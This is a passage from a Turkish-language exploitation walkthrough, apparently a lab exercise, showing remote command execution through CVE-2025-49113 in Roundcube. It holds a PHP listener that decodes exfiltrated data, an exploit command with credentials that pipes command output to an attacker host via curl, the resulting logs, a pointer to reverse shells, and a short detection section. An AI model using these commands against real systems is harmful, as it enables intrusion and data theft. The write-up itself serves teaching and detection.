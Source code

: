 Aşağıdaki şekilde sunucumuza isteğin geldiğini görüyoruz.

```bash
Serving HTTP on 0.0.0.0 port 8081 (http://0.0.0.0:8081/) ...
10.10.11.77 - - [17/Aug/2025 20:48:04] "GET /?test HTTP/1.1" 200 -
```

Bundan sonraki kısmı otomatikleştirmek ve çalıştırdığımız komutlardan aldığımız sonuçlarda veri kaybı yaşamamak adına sonuçları **base64** koduna çevireceğiz ve aşağıdaki PHP scripti ile **data** parametresi ile gönderdiğimiz base64 kodunu decode ederek ekrana basacağız. 

```php
<?php
  if (isset($_GET['data'])) {
     $data = base64_decode($_GET['data']);

  error_log("\nDecoded data =>>> " . $data . "\n");
}
?>
```

Python ile açtığımız sunucuyu durdurup aşağıdaki komut ile PHP sunucumuzu başlatıyoruz.

```bash
php -S 0.0.0.0:8081
```

Zafiyetli sistem için yaptığımız isteği aşağıdaki şekilde güncelliyoruz.

```bash
php CVE-2025-49113.php http://mail.redacted.com tyler LhKL1o9Nm3X2 'curl http://10.10.14.147:8081/index.php?data=$(id | base64)'
```

PHP sunucumuzun loglarına baktığımızda aşağıdaki gibi bir çıktı görüyoruz.

```bash
[Sun Aug 17 21:14:47 2025] 10.10.11.77:55952 Accepted
[Sun Aug 17 21:14:47 2025]
Decoded data =>>> uid=33(www-data) gid=33(www-data) groups=33(www-data)


[Sun Aug 17 21:14:47 2025] 10.10.11.77:55952 [200]: GET /index.php?data=dWlkPTMzKHd3dy1kYXRhKSBnaWQ9MzMod3d3LWRhdGEpIGdyb3Vwcz0zMyh3d3ctZGF0YSkK
[Sun Aug 17 21:14:47 2025] 10.10.11.77:55952 Closing
```

Bu şekilde yapacağımız işlemi biraz daha kolaylaştırmış oluyoruz.

Bundan sonrası hemen akla geleceği gibi sistem üzerinden reverse shell almaktır. Bunun için internet üzerinde bulunan shell kopya kağıtları kullanılabilir.

<br>

## **Tespit**

****

Bu zafiyetin istismar edilip edilmediği, özellikle `upload.php` dosyasına yapılan isteklerin log analiziyle anlaşılabilir. `_from` parametresinde beklenmeyen, şüpheli karakterler ve en önemlisi çok uzun değerler görüldüğünde, saldırı denemesi ihtimali yüksektir. Ayrıca, Roundcube’un **session** dosyalarında olağan dışı nesne yapıları ya da eklenmemesi gereken dosyaların bulunması, zafiyetin sömürüldüğüne işaret eder.
